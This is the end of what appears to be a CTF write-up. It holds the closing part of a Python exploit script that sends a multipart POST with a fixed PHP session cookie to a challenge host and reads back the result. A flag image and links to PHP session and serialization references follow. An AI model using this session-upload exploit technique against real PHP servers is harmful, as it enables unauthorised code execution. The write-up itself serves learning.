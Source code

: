 ```python
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Origin": "http://httpd.shop",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryUmsB8xWbmldnarAQ",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "ko,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,la;q=0.5,und;q=0.4,lb;q=0.3,vi;q=0.2",
        "Cookie": "PHPSESSID=munsiwoo"
    }

    req.post(url, headers=headers, data=contents)
    result = req.get(url, headers=headers).text

    print(result, flush=True)
```

![flag](flag.png)



### Reference

[https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html "https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html")
[http://wonderkun.cc/index.html/?p=718](http://wonderkun.cc/index.html/?p=718 "http://wonderkun.cc/index.html/?p=718")
[https://blog.spoock.com/2016/10/16/php-serialize-problem/](https://blog.spoock.com/2016/10/16/php-serialize-problem/ "https://blog.spoock.com/2016/10/16/php-serialize-problem/")
[https://gist.github.com/chtg/f74965bfea764d9c9698](https://gist.github.com/chtg/f74965bfea764d9c9698 "https://gist.github.com/chtg/f74965bfea764d9c9698")
[https://www.zzfly.net/ctf-serialize/](https://www.zzfly.net/ctf-serialize/ "https://www.zzfly.net/ctf-serialize/")
[https://bugs.php.net/bug.php?id=71101](https://bugs.php.net/bug.php?id=71101 "https://bugs.php.net/bug.php?id=71101")
[https://bugs.php.net/bug.php?id=72681](https://bugs.php.net/bug.php?id=72681 "https://bugs.php.net/bug.php?id=72681")
[https://www.php.net/manual/en/session.upload-progress.php](https://www.php.net/manual/en/session.upload-progress.php "https://www.php.net/manual/en/session.upload-progress.php")
[https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler "https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler")
